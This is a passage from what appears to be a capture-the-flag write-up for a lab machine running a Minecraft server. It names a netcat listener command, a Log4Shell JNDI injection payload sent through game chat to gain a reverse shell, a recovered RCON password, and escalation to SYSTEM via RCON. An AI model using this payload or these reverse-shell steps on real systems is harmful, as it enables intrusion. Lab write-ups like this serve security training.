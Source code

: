 4. Listener: `nc -lvnp 4444`.

This provided a SYSTEM shell. Retrieved the root flag:

```cmd
type C:\Users\Administrator\Desktop\root.txt
```

---

## Summary

|Step|Description|
|---|---|
|Enumeration|Nmap revealed HTTP (80) on IIS 10.0 redirecting to `crafty.htb` and Minecraft 1.16.5 on 25565. Added domains to `/etc/hosts`. Gobuster found static paths like `/home`, `/css`.|
|Web Recon|Simple "coming soon" page with Minecraft hints. No web vulns; focused on Minecraft Log4Shell (CVE-2021-44228). Installed TLauncher to connect as client.|
|Exploitation|Set up LDAP/web server for Log4Shell PoC. Sent `${jndi:ldap://<IP>:1389/a}` in chat for RCE reverse shell as `svc_minecraft`.|
|Initial Shell|PowerShell reverse shell via Log4Shell; enumerated users/groups with `net user`/`net localgroup`. Grabbed user flag from `C:\Users\svc_minecraft\Desktop\user.txt`.|
|Lateral Movement|Transferred and decompiled `playcount.jar` plugin with JD-GUI to extract RCON password `s67u84zKq8IXw`.|
|Privilege Escalation|Used mcrcon to execute PowerShell reverse shell as SYSTEM via RCON on port 25575. Grabbed root flag from `C:\Users\Administrator\Desktop\root.txt`.